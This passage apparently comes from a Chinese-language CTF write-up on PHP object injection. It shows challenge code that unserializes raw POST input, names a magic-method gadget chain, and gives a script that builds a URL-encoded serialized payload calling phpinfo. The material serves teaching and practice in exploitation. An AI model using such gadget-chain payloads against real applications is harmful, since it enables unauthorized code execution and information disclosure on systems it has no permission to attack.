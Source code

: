 ```php
    }
}

class cheng
{
    public $c1;

    public function __wakeup()//当unserialize时触发
    {
        $this->c1->flag = 'flag';
    }

    public function __invoke()
    {
        $this->c1->hint();
    }
}

class bei
{
    public $b1;
    public $b2;

    public function __set($k1,$k2)//
    {
        print $this->b1;
    }

    public function __call($n1,$n2)
    {
        echo $this->b1;
    }
}

if (isset($_POST['ans'])) {
    unserialize($_POST['ans']);
} else {
    highlight_file(__FILE__);
}
?>
```

链子：入口`cheng的wakeup`->`bei的set`->`yang的toString`

```php
<?php
class yang{
    public $y1;
}
class cheng{
    public $c1;
}
class bei{
    public $b1;
    public $b2;
}
$a=new cheng();
$a->c1=new bei();
$a->c1->b1=new yang();
$a->c1->b1->y1="phpinfo";
echo urlencode(serialize($a));
```
